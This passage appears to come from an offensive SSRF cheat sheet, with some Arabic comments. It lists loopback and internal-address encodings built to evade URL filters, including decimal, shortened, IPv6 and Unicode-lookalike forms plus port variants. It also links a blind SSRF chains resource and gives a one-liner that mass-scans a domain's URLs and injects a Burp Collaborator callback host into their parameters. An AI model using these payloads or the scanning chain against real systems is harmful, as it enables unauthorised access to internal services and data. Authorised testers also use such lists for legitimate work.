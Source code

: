 #### **7. IPv4 & IPv6 Variations**
- **IPv4 Standard Format**:
  ```bash
  http://127.0.0.1/
  ```
- **IPv4 Shortened Formats**:
  ```bash
  http://127.1/
  http://127.0.1/
  ```
- **IPv4 Decimal Representation**:
  ```bash
  http://2130706433/
  ```
- **IPv6 Representations**:
  ```bash
  http://[::1]/               # Standard IPv6 localhost
  http://[::ffff:127.0.0.1]/  # Mixed IPv6/IPv4
  ```
- **Localhost Name Variants**:
  ```bash
  http://localhost/
  http://localhost.localdomain/
  http://127.in-addr.arpa/
  ```
- **Empty Host**:
  ```bash
  http:///
  http://0/
  ```
- **Loopback Address Variants**:
  ```bash
  http://127.0.0.254/
  http://10.0.0.1/            # مثال لاختبار خاص بشبكات داخلية
  ```
- **Unicode and Punycode Normalization**:
  ```bash
  http://locaⅼhost/          # "l" مكتوب بـ Unicode مختلف
  http://lоcalhost/          # "o" مكتوب بشكل مختلف
  ```
- **Port Variations**:
  ```bash
  http://127.0.0.1:80/
  http://127.0.0.1:443/
  http://localhost:8080/
  http://localhost:3000/
  ```

#### **8. Blind SSRF Chains**
- **GitHub Resource**:
  ```bash
  https://github.com/assetnote/blind-ssrf-chains
  ```

#### **9. Automation Tools**
- **Findomain & Gau**:
  ```bash
  findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace your.burpcollaborator.net
  ```

---